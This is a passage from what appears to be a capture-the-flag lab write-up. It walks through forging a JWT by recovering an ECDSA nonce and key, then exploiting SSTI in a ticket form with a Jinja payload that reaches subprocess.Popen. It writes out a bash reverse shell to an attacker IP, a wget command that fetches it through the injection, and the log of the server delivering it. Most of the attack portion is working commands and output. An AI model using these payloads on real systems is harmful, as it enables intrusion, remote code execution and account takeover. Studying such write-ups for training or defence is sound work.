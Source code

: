 ```bash
┌──(I3isk3t㉿kali)-[~]
└─$ python3 exploit.py
[+] Recovered k = 19854092516489233696285450598150334498439376556935887292563364618160126731368
[+] Recovered d = 51322236806165564634438589421522373944846308332289035326530879155654487637724
[+] Forged JWT for tony:

eyJhbGciOiJFUzI1NiJ9.eyJ1c2VybmFtZSI6InRvbnkiLCJlbWFpbCI6InRvbnlAYW16Y29ycC5sb2NhbCIsImFjY291bnRfc3RhdHVzIjp0cnVlfQ.C7UV_Vd_CxaMe1IENf44Kcn-dCxqhNFLkVBTQhkJR3yEnwvcCaAp1zPag_6Niku5ximrABSxCGZAthIm5bO45A
```

Replace new jwt in this position:

<img width="1166" height="326" alt="image 22" src="https://github.com/user-attachments/assets/c4e19957-81ea-4afd-b632-f97beeaeba3a" />  

And here it is:

<img width="1912" height="928" alt="image 23" src="https://github.com/user-attachments/assets/eab6457c-c9e7-4715-be5f-72146e2570b0" />  

Normally with a web that have ticket opening functionality like this there will be SSTI vulnerabilities if the input is not filtered, I will test to see if it works:

<img width="663" height="345" alt="image 24" src="https://github.com/user-attachments/assets/50653071-f4c4-41d3-b348-f8e75575cc59" />  

- It is vulnerable to SSTI on both input fields.

I found a [payload](https://www.cnblogs.com/glodears/p/18214431) that break out of the template sandbox, enumerate Python object subclasses, reach `subprocess.Popen`, and then execute the command provided via the `cmd` parameter with shell access:

<img width="932" height="420" alt="image 25" src="https://github.com/user-attachments/assets/c3740c7f-625d-4ccc-8634-04250385e57b" />  

- `{{ dict.mro()[-1].__subclasses__()[276](request.args.cmd,shell=True,stdout=-1).communicate()[0].strip() }}`

<img width="1913" height="933" alt="image 26" src="https://github.com/user-attachments/assets/5a93d1c5-d39f-4d00-8fbe-07097bdc379d" />  

Alright, let’s go RCE it!!!

```bash
┌──(I3isk3t㉿kali)-[~]
└─$ echo "bash -c 'bash -i >& /dev/tcp/10.10.14.4/4444 0>&1'" > exploit.sh

```

```bash
?cmd=wget http://10.10.14.4:3636/exploit.sh
```

```bash
┌──(I3isk3t㉿kali)-[~]
└─$ python3 -m http.server 3636
Serving HTTP on 0.0.0.0 port 3636 (http://0.0.0.0:3636/) ...
10.13.37.15 - - [20/Aug/2025 09:49:09] "GET /exploit.sh HTTP/1.1" 200 -
```
